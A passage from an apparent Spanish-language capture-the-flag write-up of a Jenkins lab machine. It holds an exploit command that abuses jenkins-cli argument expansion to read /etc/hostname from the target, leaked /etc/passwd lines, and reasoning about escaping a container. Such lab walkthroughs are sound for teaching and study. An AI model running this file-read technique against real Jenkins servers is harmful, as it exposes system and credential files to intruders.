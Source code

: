 ```ruby
'sys:x:3:3:sys:/dev:/usr/sbin/nologin'
'sync:x:4:65534:sync:/bin:/bin/sync'
                                                                                                       
```

- Por la estructura del passwd pareciera que es un contenedor ya que no vemos nombre de usuarios si no el root y el jenkins, de igual manera lo podemos comprobar enlistando el hostname

```ruby
❯ java -jar jenkins-cli.jar -s http://10.10.11.10:8080 delete-job @/etc/hostname 2>&1 | grep -oP "'.*?'"
'0f52c222a4cc'
```
- Ese numero identificativo nos indica que es un contenedor, otra manera de comprobarlo es enlistando el fib_trie para ver el arbol de direccionamiento ip:
![](../assets/images/Builder/Web5.png)
- Vemos  que la ip local es diferente a la ip de la maquina victima, por lo tanto debemos escapar del contenedor. 
- Si no sabemos como funciona jenkins por detras lo que podemos hacer es montar un jenkins en un contenedor docker y ver que archivos aloja.
[https://github.com/jenkinsci/docker](https://github.com/jenkinsci/docker) 

```ruby
docker run -p 8080:8080 -p 50000:50000 --restart=on-failure jenkins/jenkins:lts-jdk17
```
